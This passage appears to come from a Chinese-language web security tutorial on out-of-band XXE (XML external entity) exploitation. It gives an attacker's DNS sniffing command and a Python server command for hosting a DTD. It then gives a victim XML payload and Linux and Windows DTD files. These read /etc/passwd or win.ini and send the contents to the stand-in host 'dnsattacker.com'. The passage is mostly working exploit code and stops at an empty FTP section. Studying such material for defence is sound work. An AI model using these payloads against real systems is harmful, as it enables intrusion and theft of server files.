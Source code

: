   
**攻击者：**  

```
sudo tcpdump -n udp port 53
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoBsfW8C1dBQGO96UfazUN31yjIf2sGs6mOYSwx5e8Sf5UZEfpQy79aA/640?wx_fmt=png&from=appmsg "")  
  
**限制：**  
截至撰写本文时，DNS 查询只能用于检测 XXE。  
### 漏洞利用/数据窃取  
#### HTTP  
  
**攻击者**  
：运行 python HTTP 服务器来托管 dtd 文件。  

```
python -m SimpleHttpServer 9000
```

  
**受害者：**  

```
<?xml version=&#34;1.0&#34; ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM &#34;http://dnsattacker.com:9000/linux.dtd&#34;>
%sp;
%param1;
]>
<r>&exfil;</r>
```

  
**linux.dtd:**  

```
<!ENTITY % data SYSTEM &#34;file:///etc/passwd&#34;>
<!ENTITY % param1 &#34;<!ENTITY exfil SYSTEM 'http://dnsattacker.com:9000/%data;'>&#34;>
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpon26dtro3R3tXaoTX0icJqraAsD5DY0XHicB3ucrFicRnxy0FWrpVfvia0A/640?wx_fmt=png&from=appmsg "")  
  
**注意**  
：对于基于 Windows 的受害者机器，使用下面提到的 dtd 文件  
  
**windows.dtd**  

```
<!ENTITY % data SYSTEM &#34;file:///c:/windows/win.ini&#34;>
<!ENTITY % param1 &#34;<!ENTITY exfil SYSTEM ' http://dnsattacker.com:9000/%data;'>&#34;>
```

#### FTP  
  
